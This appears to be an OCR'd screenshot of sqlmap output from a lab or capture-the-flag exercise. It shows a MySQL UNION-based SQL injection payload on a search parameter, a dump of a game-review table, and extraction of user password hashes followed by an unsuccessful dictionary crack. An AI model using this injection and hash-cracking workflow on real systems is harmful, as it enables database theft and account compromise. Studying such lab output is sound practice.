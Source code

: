         Type: UNION query
        Title: MySQL UNION query (NULL) - 3 columns
        Payload: searchitem=test' UNION ALL SELECT NULL,NULL,CONCAT(0x716b767071,0x55624c637070666e4b7842524c45507a706e7561455867626f464d556779416759546973716e416a,0x717a627a71)#
    ---
    [22:09:42] [INFO] testing MySQL
    [22:09:42] [INFO] confirming MySQL
    [22:09:42] [INFO] the back-end DBMS is MySQL
    back-end DBMS: MySQL >= 5.0.0
    [22:09:42] [WARNING] missing database parameter. sqlmap is going to use the current database to enumerate table(s) entries
    [22:09:42] [INFO] fetching current database
    [22:09:42] [INFO] fetching tables for database: 'db'
    [22:09:42] [INFO] fetching columns for table 'post' in database 'db'
    [22:09:42] [INFO] fetching entries for table 'post' in database 'db'
    Database: db
    Table: post
    [5 entries]
    +----+--------------------------------+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
    | id | name                           | description                                                                                                                                                                                            |
    +----+--------------------------------+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
    | 1  | Mortal Kombat 11               | Its a rare fighting game that hits just about every note as strongly as Mortal Kombat 11 does. Everything from its methodical and deep combat.                                                         |
    | 2  | Marvel Ultimate Alliance 3     | Switch owners will find plenty of content to chew through, particularly with friends, and while it may be the gaming equivalent to a Hulk Smash, that isnt to say that it isnt a rollicking good time. |
    | 3  | SWBF2 2005                     | Best game ever                                                                                                                                                                                         |
    | 4  | Hitman 2                       | Hitman 2 doesnt add much of note to the structure of its predecessor and thus feels more like Hitman 1.5 than a full-blown sequel. But thats not a bad thing.                                          |
    | 5  | Call of Duty: Modern Warfare 2 | When you look at the total package, Call of Duty: Modern Warfare 2 is hands-down one of the best first-person shooters out there, and a truly amazing offering across any system.                      |
    +----+--------------------------------+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+

    [22:09:42] [INFO] table 'db.post' dumped to CSV file '/home/kali/.local/share/sqlmap/output/10.10.156.19/dump/db/post.csv'                                            
    [22:09:42] [INFO] fetching columns for table 'users' in database 'db'
    [22:09:42] [INFO] fetching entries for table 'users' in database 'db'
    [22:09:42] [INFO] recognized possible password hashes in column 'pwd'
    do you want to store hashes to a temporary file for eventual further processing with other tools [y/N] y
    [22:09:43] [INFO] writing hashes to a temporary file '/tmp/sqlmapg01iru1x2963/sqlmaphashes-ix8j_2n_.txt'                                                              
    do you want to crack them via a dictionary-based attack? [Y/n/q] y
    [22:09:44] [INFO] using hash method 'sha256_generic_passwd'
    what dictionary do you want to use?
    [1] default dictionary file '/usr/share/sqlmap/data/txt/wordlist.tx_' (press Enter)
    [2] custom dictionary file
    [3] file with list of dictionary files
    > 1
    [22:09:46] [INFO] using default dictionary
    do you want to use common password suffixes? (slow!) [y/N] n
    [22:09:48] [INFO] starting dictionary-based cracking (sha256_generic_passwd)
    [22:09:48] [INFO] starting 4 processes 
    [22:09:59] [WARNING] no clear password(s) found                                   
    Database: db
    Table: users
    [1 entry]
    +------------------------------------------------------------------+----------+